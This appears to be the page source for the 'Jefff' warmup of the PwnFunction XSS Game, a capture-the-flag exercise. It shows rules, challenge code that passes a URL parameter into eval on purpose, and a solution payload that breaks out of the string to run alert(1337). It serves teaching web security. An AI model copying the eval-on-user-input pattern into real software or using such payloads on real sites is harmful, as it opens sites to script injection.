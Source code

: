 ```yaml
---
title: "XSS Game - Jefff | PwnFunction"
header: "Jefff"
challengeUrl: "https://sandbox.pwnfunction.com/warmups/jefff.html"
date: 2020-01-19T18:08:44+05:30
draft: false
type: warmup
difficulty: Easy
---
```


{{< rules >}}
<li>Difficulty is <b>Easy</b>.</li>
<li>Pop an <code>alert(1337)</code> on <code>sandbox.pwnfunction.com</code>.</li>
<li>No user interaction.</li>
<li>Cannot use <code>https://sandbox.pwnfunction.com/?html=&js=&css=</code>.</li>
<li>Tested on <b>Chrome</b>.</li>
{{</ rules >}}

{{< code >}}<code class="language-markup">&#x3C;!-- Challenge --&#x3E;
&#x3C;h2 id=&#x22;maname&#x22;&#x3E;&#x3C;/h2&#x3E;
&#x3C;script&#x3E;
    let jeff = (new URL(location).searchParams.get(&#x27;jeff&#x27;) || &#x22;JEFFF&#x22;)
    let ma = &#x22;&#x22;
    eval(&#x60;ma = &#x22;Ma name ${jeff}&#x22;&#x60;)
    setTimeout(_ =&#x3E; {
        maname.innerText = ma
    }, 1000)
&#x3C;/script&#x3E;</code>{{< /code >}}

{{< solution >}}
<p>The GET parameter <code>jeff</code> lands inside eval
    <code>eval(`ma = "Ma name ${jeff}"`)</code>, hence we can break out of the string with double
    quotes and execute our own code.
</p>

<pre class="solution-code-block"><code class="language-js">"-alert(1337)-"</code></pre>
{{< /solution >}}